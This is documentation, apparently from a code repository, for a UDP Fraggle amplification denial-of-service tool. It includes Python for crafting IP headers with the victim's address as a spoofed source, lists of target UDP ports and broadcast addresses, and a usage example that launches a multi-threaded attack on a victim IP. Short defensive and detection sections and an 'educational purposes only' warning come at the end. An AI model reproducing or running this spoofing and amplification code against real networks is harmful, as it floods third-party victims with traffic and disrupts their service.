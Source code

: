 # UDP Fraggle Attack Documentation

## Overview

The UDP Fraggle attack is a network amplification attack that exploits the UDP protocol by sending UDP packets to broadcast addresses with spoofed source IP addresses. This causes all devices on the broadcast network to respond to the target (victim), creating an amplified traffic attack.

## Attack Mechanism

### How UDP Fraggle Works

1. **Packet Creation**: The attacker crafts UDP packets with spoofed source IP addresses (victim's IP)
2. **Broadcast Targeting**: These packets are sent to broadcast addresses on various networks
3. **Amplification**: All devices on the broadcast network respond to the spoofed source IP
4. **Traffic Multiplication**: The victim receives responses from multiple devices, amplifying the attack traffic

### Technical Details

#### IP Header Structure (RFC 791)
```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|Version|  IHL  |Type of Service|          Total Length         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|         Identification        |Flags|      Fragment Offset    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|  Time to Live |    Protocol   |         Header Checksum       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                       Source Address                          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Destination Address                        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

#### UDP Header Structure (RFC 768)
```
0      7 8     15 16    23 24    31
+--------+--------+--------+--------+
|     Source      |   Destination   |
|      Port       |      Port       |
+--------+--------+--------+--------+
|                 |                 |
|     Length      |    Checksum     |
+--------+--------+--------+--------+
|
|          data octets ...
+---------------- ...
```

## IP Spoofing Implementation

### Source IP Spoofing

The UDP Fraggle attack uses explicit IP spoofing to make packets appear to come from the victim's IP address:

```python
def _create_ip_header(self, source_ip, dest_ip):
    """
    Create IP header with spoofed source IP.
    The source_ip parameter is set to the victim's IP address.
    """
    # IP header fields
    version = 4                    # IPv4
    ihl = 5                        # Internet Header Length
    type_of_service = 0            # Normal service
    total_length = 28              # IP + UDP headers
    identification = random.randint(1, 65535)
    flags = 0                      # No flags
    fragment_offset = 0            # No fragmentation
    ttl = 64                       # Time to live
    protocol = socket.IPPROTO_UDP  # UDP protocol
    
    # Convert spoofed source IP to binary
    source_addr = socket.inet_aton(source_ip)  # VICTIM'S IP
    dest_addr = socket.inet_aton(dest_ip)      # BROADCAST IP
```

### Spoofing Verification

The attack implementation ensures IP spoofing is effective:

1. **Raw Socket Usage**: Uses `SOCK_RAW` with `IP_HDRINCL` to craft custom IP headers
2. **Source IP Control**: Explicitly sets the source IP to the victim's address
3. **Checksum Calculation**: Properly calculates IP and UDP checksums for valid packets
4. **Broadcast Targeting**: Sends to broadcast addresses to maximize amplification

## Target Services

The attack targets common UDP services that respond to broadcast packets:

```python
self.target_services = [
    7,    # Echo Service (RFC 862)
    13,   # Daytime Protocol (RFC 867)
    19,   # Character Generator Protocol (RFC 864)
    37,   # Time Protocol (RFC 868)
    53,   # Domain Name System (RFC 1035)
    123,  # Network Time Protocol (RFC 5905)
    161,  # Simple Network Management Protocol (RFC 1157)
    137,  # NetBIOS Name Service (RFC 1002)
    138,  # NetBIOS Datagram Service (RFC 1002)
]
```

## Broadcast Networks

The attack uses various broadcast addresses for amplification:

```python
self.broadcast_networks = [
    "192.168.1.255",   # Common home network broadcast
    "192.168.0.255",   # Alternative home network
    "10.0.0.255",      # Private network broadcast
    "172.16.0.255",    # Private network broadcast
    "224.0.0.1"        # All systems multicast
]
```

## Implementation Features

### Multi-threading Support
- Configurable number of worker threads for concurrent packet sending
- Thread-safe packet counting and logging
- Graceful thread termination on attack completion

### Logging and Monitoring
- Comprehensive logging of attack progress and errors
- Real-time packet rate monitoring
- Color-coded output for different message types

### Error Handling
- Robust error handling for network failures
- Privilege checking for raw socket operations
- Graceful degradation on socket errors

## Usage Example

```python
# Create UDP Fraggle attack instance
attack = UDPFraggle(
    target_ip="192.168.1.100",      # Victim's IP
    target_port=7,                  # Echo service
    duration=60,                    # 60 seconds
    threads=20,                     # 20 worker threads
    broadcast_networks=[            # Custom broadcast networks
        "192.168.1.255",
        "10.0.0.255"
    ]
)

# Execute the attack
attack.attack()
```

## Security Considerations

### Defensive Measures

1. **Ingress Filtering**: Implement ingress filtering to prevent spoofed packets
2. **Broadcast Blocking**: Disable IP-directed broadcasts on routers
3. **Service Hardening**: Disable unnecessary UDP services
4. **Rate Limiting**: Implement rate limiting on UDP traffic

### Detection Methods

1. **Traffic Analysis**: Monitor for unusual UDP broadcast traffic
2. **Source IP Validation**: Check for impossible source IP addresses
3. **Bandwidth Monitoring**: Watch for sudden spikes in UDP traffic
4. **Service Monitoring**: Monitor targeted UDP services for unusual activity

## Educational Value

This implementation demonstrates:

- Network protocol manipulation
- IP spoofing techniques
- Broadcast amplification attacks
- Multi-threaded network programming
- Raw socket programming
- Network security vulnerabilities

## Legal and Ethical Considerations

⚠️ **WARNING**: This code is for educational purposes only. Using this attack against systems without explicit permission is illegal and unethical. Always:

- Obtain proper authorization before testing
- Use only in controlled environments
- Respect network policies and laws
- Consider the impact on network resources

## References

- RFC 791: Internet Protocol
- RFC 768: User Datagram Protocol
- RFC 862: Echo Protocol
- RFC 867: Daytime Protocol
- RFC 864: Character Generator Protocol
- RFC 1035: Domain Names - Implementation and Specification
- RFC 5905: Network Time Protocol Version 4
